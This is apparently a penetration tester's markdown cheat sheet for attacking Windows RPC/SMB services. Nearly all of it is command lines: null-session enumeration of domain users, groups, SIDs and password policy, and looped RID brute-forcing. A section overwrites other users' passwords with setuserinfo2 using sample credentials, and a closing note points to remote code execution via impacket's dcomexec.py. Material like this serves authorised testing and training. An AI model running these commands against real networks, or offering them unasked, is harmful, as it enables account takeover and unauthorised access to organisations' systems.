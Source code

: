 # RPC Checklist

```bash
nmap -sV -p 111 --script=rpcinfo $ip
nmap -sV -p 111 --script=rpc* $ip
rpcdump.py $ip -p 135
rpcclient -U '' -N $ip
rpcclient -U "" $ip // when asked enter empty password
rpcclient $ip -N -U "" \\$ip
rpcclient $>srvinfo
rpcclient $>enumdomusers
rpcclient $>querydominfo
rpcclient $>getdompwinfo   //password policy
rpcclient $>netshareenum
nmblookup -A 192.168.1.1
nbtscan IP

#List the ports using RPC
rpcinfo $ip 
> Output would look something like below
    100024    1    udp       0.0.0.0.150.11         status     29
    100024    1    tcp       0.0.0.0.219.244        status     29
    100024    1    udp6      ::.153.127             status     29
    100024    1    tcp6      ::.172.42              status     29

#list accessible RPC service endpoints
rpcinfo -p $ip 

Domain Enumeration with RPcclient
#Enum using Null Session
rpcclient -U "" $ip 

#Login as a user
rpcclient -U USERNAME //$ip 

#Find Users in the domain 
rpcclient -Uuser_Name%PASSWORD -c enumdomusers $ip 

#Find Domian Info
rpcclient -Uuser_Name%PASSWORD -c querydominfo  $ip 

#Find Groups and their Alias
rpcclient -Uuser_Name%PASSWORD -c "enumalsgroups builtin" $ip 

#Find more info using Alias and note SIDs
rpcclient -Uuser_Name%PASSWORD -c "queryaliasmem builtin 0x244" $ip 

#Find more info using SIDs
rpcclient $> lookupsids S-1-5-21-586154515854-343543654-8743952433-1105 

#Reset other Users Password
rpcclient -U user1 //$ip 
setuserinfo2 USER2 23 'PASSWORD'

Enum using RPCClient

rpcclient -U DOMAIN\\Username $ip    #Enter pass 

enumdomusers     #Enumerate Domain Users 

enumprivs        #Enum Privileges

enumprinters    #Enum Printers

srvinfo         #Server info

enumalsgroups domain    #List the domain groups 

enumalsgroups builtin    #list builtin groups

queryuser 500        #find Admin users

lookupnames username/groupname    #Find the SID of a user/group

Dont want to manually check all the commands ? maybe below script will help :P 

#save the below commands as a text file and run the below command
querydominfo
enumdomgroups
enumdomusers
querygroupmem 0x201
enumprivs        
enumprinters    
srvinfo
enumdomgroups
querygroup 0x200
queryuser Administrator
getdompwinfo
getusrdompwinfo 0x1f4
lsaenumsid
lookupnames Administrator
enumalsgroups domain
enumalsgroups builtin 
queryuser 500  
lsaquery
dsroledominfo
netshareenum
netshareenumall
netsharegetinfo Confidential
querydispinfo
lsalookupprivvalue SeImpersonatePrivielge

#Run the below command
for command in $(cat rpc-enum.txt); do rpcclient -U "%" -c $command $ip; done



OVERWRITE SOMEONE'S PASSWORD!!!
```bash
rpcclient -N -U "hazel.green%haze1988" $ip
setuserinfo2 MOLLY.SMITH 23 'Password123!'
setuserinfo christopher.lewis 23 'Admin!23'
```

Automate a bit.

```bash
for command in $(cat /opt/windows/rpc-enum.txt); do rpcclient 192.168.165.40 -U "hazel.green" --password="haze1988" -c "$command"; done
for name in $(cat ../users.txt.bak); do rpcclient 192.168.165.40 -U "hazel.green" --password="haze1988" -c "queryuser $name"; done
```

```bash
for command in $(cat rpc-enum.txt); do rpcclient $ip -U "$user%$pass" -c $command; done
for command in $(cat rpc-enum.txt); do rpcclient $ip -U "%" -c $command; done
for name in $(cat ../users.txt); do rpcclient $ip -U "%" -c "queryuser $name"; done
```

#### Enumerate Users

```bash
for i in $(seq 500 1100); do rpcclient -N -U "" $ip -c "queryuser 0x$(printf '%x\n' $i)" | grep "User Name\|user_rid\|group_rid" && echo ""; done
```

```bash
python /opt/ridenum.py $ip 500 1200
```

#### RCE

It is possible to execute remote code on a machine, if the credentials of a valid user are available using dcomexec.py from impacket framework.

Remember to try with the different objects available
    - ShellWindows
    - ShellBrowserWindow
    - MMC20